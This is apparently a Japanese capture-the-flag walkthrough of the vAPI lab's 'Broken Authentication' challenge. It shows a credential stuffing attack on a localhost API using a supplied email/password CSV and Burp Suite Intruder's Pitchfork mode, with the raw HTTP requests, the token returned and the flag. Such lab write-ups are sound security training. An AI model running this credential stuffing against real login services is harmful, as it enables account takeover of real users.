


# API2 Broken Authentication
認証に必要な情報がないが、どうやってログインする？

この問題はResourceフォルダに入っている「API2_CredentialStuffing.csv」を使う。  
csvにはメールと謎の文字列が1000行入っている。
```csv
brown.grimes@hotmail.com,w_5yhfEN
reuben.heaney@hotmail.com,8JhcB_mH
dcronin@robel.com,V$qe{8+3
hcollier@veum.com,vVsU7/yN
vemard@gmail.com,gRfJ3$U7
```

csvの1行目をemailとpasswordに入れてログイン試行してみるが入れない。
```http
POST /vapi/api2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: c92a283e-4a01-4caa-8f60-ce3b38d203f1
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 72

{
    "email":"brown.grimes@hotmail.com",
    "password":"w_5yhfEN"
}
```

```http
HTTP/1.1 401 Unauthorized
Host: localhost
Date: Sat, 05 Mar 2022 13:11:20 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:11:20 GMT
Content-Type: application/json

{"success":"false","cause":"usernameOrPasswordIncorrect"}
```

### 1000パターンすべて試行してみる。
Intruderに送り、emailとpasswprdが強調された状態で、Attack typeは「Pitchfork」とする。


Payloadsタブに移動。
Payload set「1」にメール1000件コピーしたものを「Paste」。
Payload set「2」に謎の文字列1000件コピーしたものを「Paste」。  


「Start attack」を押して試行開始。  
無償版のBurp Suite Community Editionだと日が暮れるぐらい時間かかる。

以下の通り、success:trueが返ってくる組み合わせがある。  
```
POST /vapi/api2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 627a5607-4b93-4979-8d08-b10fd8064a2b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 67

{
    "email":"savanna48@ortiz.com",
    "password":"zTyBwV/9"
}
```
```
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:28:02 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:28:02 GMT
Content-Type: application/json

{"success":"true","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB"}
```

得られたtokenを引き継いでGet Details APIを実行するとFlagが返ってくる。  
```http
GET /vapi/api2/user/details HTTP/1.1
Authorization-Token: Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 836f1cd2-79dc-4463-847c-2710ffd87345
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```

```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:30:06 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:30:06 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```
